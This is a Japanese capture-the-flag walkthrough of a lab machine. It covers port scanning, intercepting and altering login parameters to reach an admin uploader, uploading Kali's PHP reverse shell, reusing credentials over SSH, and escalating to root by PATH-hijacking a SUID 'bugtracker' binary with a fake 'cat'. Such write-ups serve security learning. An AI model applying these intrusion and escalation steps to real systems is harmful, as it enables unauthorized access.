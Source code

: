 # 1.Port Scan 
対象マシンのポートをスキャン
ip=10.129.250.6
`nmap -sC -sV $ip`

![45d47843cf0fb8616a8edcb162087940.png](../_resources/45d47843cf0fb8616a8edcb162087940.png)

# 2.Burp Suite

## Local Proxy
対象HPに接続
http://$ip/

![ba7bed9861212273b386f7897f470797.png](../_resources/ba7bed9861212273b386f7897f470797.png)

login用ページと思われるディレクトリを発見
![a5827a020d78d0729156353852591dd6.png](../_resources/a5827a020d78d0729156353852591dd6.png)

## Guest login
ゲストでログイン

![8f22d7efb189df67c1aa8a7813b79e37.png](../_resources/8f22d7efb189df67c1aa8a7813b79e37.png)

![7a15c188f29c929e9aa04c8dc9592a45.png](../_resources/7a15c188f29c929e9aa04c8dc9592a45.png)

ログインページのパケットを傍受

![50060c167b817853f9591ce6145a313e.png](../_resources/50060c167b817853f9591ce6145a313e.png)

# 3.Fuzzing
## admin info
右図赤枠の箇所でファジングを実施

![d632620577c6476d0c97e392a316067d.png](../_resources/d632620577c6476d0c97e392a316067d.png)

ID=1がadminであることを確認

![c3415e527202f0309347b802d9ed8978.png](../_resources/c3415e527202f0309347b802d9ed8978.png)


## Revers shell
下図赤枠内パラメータをアドミンの物に変更

![ba2b093e44d88550f531741c9934726a.png](../_resources/ba2b093e44d88550f531741c9934726a.png)

管理者用アップローダーへ接続

![b98b35d67e41d1f98923d4cca1687b47.png](../_resources/b98b35d67e41d1f98923d4cca1687b47.png)

kaliのデフォルトについてるリバースシェルの下図赤枠内を変更
`sudo vim /usr/share/webshells/php/php-reverse-shell.php`

![3dcab1c5508c1bf63101c022bbd47bd7.png](../_resources/3dcab1c5508c1bf63101c022bbd47bd7.png)

変更したものをアップロード

![77b8ae2afd72cc4f016531e50a643af3.png](../_resources/77b8ae2afd72cc4f016531e50a643af3.png)

アップロードしたものをgobusterで確認。

![6bcdd8fe55f595fa01cd68931123965f.png](../_resources/6bcdd8fe55f595fa01cd68931123965f.png)


![f62c2cd0941e9c9da144bc0d25034347.png](../_resources/f62c2cd0941e9c9da144bc0d25034347.png)

# 5. Use flag Get
サーバ内のuser.txtを検索

$ find / -name *user.txt* 2> /dev/null

$ cd /home/robert/

$ ls

$ cat user.txt

![0edfe3217b29b18377779dfc17ba6397.png](../_resources/0edfe3217b29b18377779dfc17ba6397.png)

root.txtがあると思われるディレクリを発見したが権限が無い為アクセスできない。

![9c8e26e622039954556ee5c91fc490cf.png](../_resources/9c8e26e622039954556ee5c91fc490cf.png)

db.php内のユーザ情報を取得

![3addcc654d858a5d6e304b64fba7629f.png](../_resources/3addcc654d858a5d6e304b64fba7629f.png)


# 6.SSH connect

 SSHを使いrobertユーザで接続

`ssh robert@$ip`
 
 ![390a02dd703ddf2bc96b56b66b8e4849.png](../_resources/390a02dd703ddf2bc96b56b66b8e4849.png)
 
ログインしているユーザが所属しているグループを発見

$ id

![e94d29e48284f38c2fa98e56063bb7b6.png](../_resources/e94d29e48284f38c2fa98e56063bb7b6.png)

bug trackerの場所を確認

$locate bugtracker

![54ea79e33302eb51168b56b83b5b19ab.png](../_resources/54ea79e33302eb51168b56b83b5b19ab.png)

bugtrackerがSUIDを所持している事を確認

ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

![8c75ab37f25b8269981b3bab3d31fe41.png](../_resources/8c75ab37f25b8269981b3bab3d31fe41.png)

Bug Trackerは/root/reportsディレクリ内に無条件でcatを使用することを確認

![f5982646e76314fb6222c9e8a0486f5e.png](../_resources/f5982646e76314fb6222c9e8a0486f5e.png)


tmpディレクトリに移動、不正なcatファイルを作成し実行権限を付与
環境変数に作成したcatファイルが優先して選ばれるように書き換えを行う

$ cd /tmp

$ echo "/bin/sh" > cat

$ chmod +x cat  

$ export PATH=/tmp:$PATH

$ echo $PATH

$ bugtracker

![0804246115a2505a54b5914b879cab38.png](../_resources/0804246115a2505a54b5914b879cab38.png)